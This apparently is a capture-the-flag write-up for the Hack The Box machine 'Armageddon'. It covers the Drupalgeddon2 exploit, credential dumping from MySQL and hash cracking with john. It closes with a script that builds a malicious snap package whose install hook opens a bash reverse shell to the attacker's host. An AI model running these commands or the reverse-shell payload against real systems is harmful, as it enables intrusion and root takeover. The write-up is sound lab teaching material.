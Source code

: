 # armageddon

## nmap

```bash
# Nmap 7.91 scan initiated Sat Jun 26 18:26:16 2021 as: nmap -sV -p- -oA nmap/armageddon 10.10.10.233
Nmap scan report for armageddon.htb (10.10.10.233)
Host is up (0.054s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 26 18:26:55 2021 -- 1 IP address (1 host up) scanned in 39.45 seconds
```

The only active service seems to be an apache web server which hosts the armageddon web site.

## Armageddon web site

The website is running Drupal v7 that can be easily found by looking at the web site source:

```html
<head profile="http://www.w3.org/1999/xhtml/vocab">
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<link rel="shortcut icon" href="http://armageddon.htb/misc/favicon.ico" type="image/vnd.microsoft.icon" />
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

A rapid search with searchsploit and we can find several exploit let's try the metasploit one: `exploit/unix/webapp/drupal_drupalgeddon2` (and I think the name of the machine is a nice hint on the exploit)

Set the options as follow

![metasploitopts](images/msf_opts.png)

and launch the exploit now we have a shell with user apache.

## Apache

From the apache user we can see what there is inside the `/etc/passwd` in order to create a list of the possibile [users][1] in the machine that can be usefull later.

We cannot create network connections from user apache so we can't download file in the machine from here. Let's have a look into the drupal server file in `sites/default/settings.php` there are some mysql credentials:
***drupaluser:CQHEy@9M*m23gBVj*** 

we can see the database tables running:

`mysql -u drupaluser -p -D drupal -e 'show tables'`
 
 and get the list of username and password by:

 `mysql -u drupaluser -p -D drupal -e 'select * from users'`

 ```bash
 uid     name    pass    mail    theme   signature       signature_format        created access  login   status       timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0   NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu  a:1:{s:7:"overlay";i:1;}
```

we have an hash for user `brucetherealadmin` that was in `/etc/passwd` too so he can be our user.

We can try to crack the hash with john

`zcat /usr/share/wordlists/rockyou.txt.gz | john --stdin passwords.txt`

and we have a password for user ***brucetherealadmin:booboo***

## Bruce the real admin

Bruce can run snap install via sudo without password so we need to build a snap package that drop a root shell when installed

to do this we can use [fpm][2] as suggested by [GTFObins][3].

To build the exploit and get a reverse shell from root use this:

```bash
COMMAND="bash -i >& /dev/tcp/<your ip>/9001 0>&1"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n rootme -s dir -t snap -a all meta
```

then upload to the machine the snap and install with `sudo snap install rootme.snap --dangerous --devmode` be sure to be listening on port 9001 (`nc -lvnp 9001`) before installing the snap.

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achievement](https://www.hackthebox.eu/storage/achievements/1d09ce7a4d737a46919b1e055e933b93.png)

[//]: #links
[1]: users.txt
[2]: https://github.com/jordansissel/fpm
[3]: https://gtfobins.github.io/gtfobins/snap/
